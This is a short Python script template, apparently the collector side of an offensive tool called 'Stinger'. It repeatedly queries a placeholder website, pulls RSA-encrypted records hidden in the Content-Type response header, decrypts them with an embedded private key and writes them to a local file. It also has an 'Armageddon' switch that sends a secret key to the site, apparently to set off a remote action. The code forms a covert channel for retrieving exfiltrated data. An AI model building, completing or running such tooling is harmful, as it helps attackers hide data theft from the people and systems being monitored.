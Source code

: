# Libraries
import requests, argparse, rsa
from rsa import PrivateKey
# Initialization
parser = argparse.ArgumentParser()
parser.add_argument("-sp", "--stingerPath", help="File Path", required=False, default="output.txt")
parser.add_argument("-sa", "--stingerArmageddon" ,help="Armageddon (True/False)", required=False, default="FALSE")
parser.add_argument("-sv", "--stingerVerbose", help="Verbose (True/False)", required=False, default="TRUE")
# Read arguments from command line
args = parser.parse_args()
# Header
headers = {
    "Accept": "{{getKey}}",
}
# Starting Point
start = {{tableBegin}}
# Private key
privateKey = {{privateKey}}

try:
    if(args.stingerArmageddon.upper() == "TRUE"):
        request = requests.get("{{website}}",params={"ARMAGEDDON":"{{armageddonKey}}"},headers=headers)
        if(request.status_code == 200):
            print("Armageddon Successful")
            exit(0)
    
    while True:
        request = requests.get("{{website}}",params={"{{tableID}}":start},headers=headers)
        if(request.status_code == 200 and str(request.headers.get("Content-Type")) != "None"):
            requestData = request.headers.get("Content-Type")
            requestData = rsa.decrypt(bytes.fromhex(requestData), privateKey).decode() + "\n"
            file = open(args.stingerPath, "a")
            file.write(requestData)
            start = start + 1
            if(args.stingerVerbose.upper() == "TRUE"):
                print("Data : " + requestData)
        else:
            if(request.status_code != 200 and args.stingerVerbose.upper() == "TRUE"):
                print("Request Error")
            elif(args.stingerVerbose.upper() == "TRUE"):
                print("No Data")
        
except Exception as e:
    print("Error : " + str(e))
    exit(1)